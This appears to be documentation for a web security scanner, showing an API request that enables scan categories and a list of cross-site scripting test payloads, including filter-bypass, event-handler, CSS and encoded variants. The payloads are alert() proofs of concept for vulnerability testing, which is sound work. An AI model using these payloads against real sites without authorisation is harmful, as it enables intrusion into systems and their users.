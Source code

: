 ### API Endpoint
```bash
POST /api/scans/advanced-bug-scan
Content-Type: application/json

{
  "targetUrl": "https://example.com",
  "categories": {
    "advancedXSS": true,
    "businessLogic": true,
    "hpp": true,
    "nosqlInjection": true,
    "ldapInjection": true,
    "commandInjection": true,
    "pathTraversal": true,
    "authBypass": true,
    "sessionIssues": true,
    "cryptoWeaknesses": true,
    "infoDisclosure": true
  }
}
```

## Payload Examples

### Advanced XSS Payloads
```javascript
// DOM-based XSS
'<script>alert("DOM-XSS")</script>'
'<img src=x onerror=alert("DOM-XSS")>'
'<svg onload=alert("DOM-XSS")>'

// Filter bypass
'<ScRiPt>alert("Bypass")</ScRiPt>'
'<script>alert(String.fromCharCode(88,83,83))</script>'

// Event handlers
'<div onmouseover="alert(1)">XSS</div>'
'<input onfocus="alert(1)" autofocus>'

// CSS injection
'<style>@import\'javascript:alert("XSS")\';</style>'
'<link rel="stylesheet" href="javascript:alert(\'XSS\')">'

// Data URI
'data:text/html,<script>alert("XSS")</script>'

// Unicode bypass
'\u003cscript\u003ealert("XSS")\u003c/script\u003e'
'&#60;script&#62;alert("XSS")&#60;/script&#62;'
```
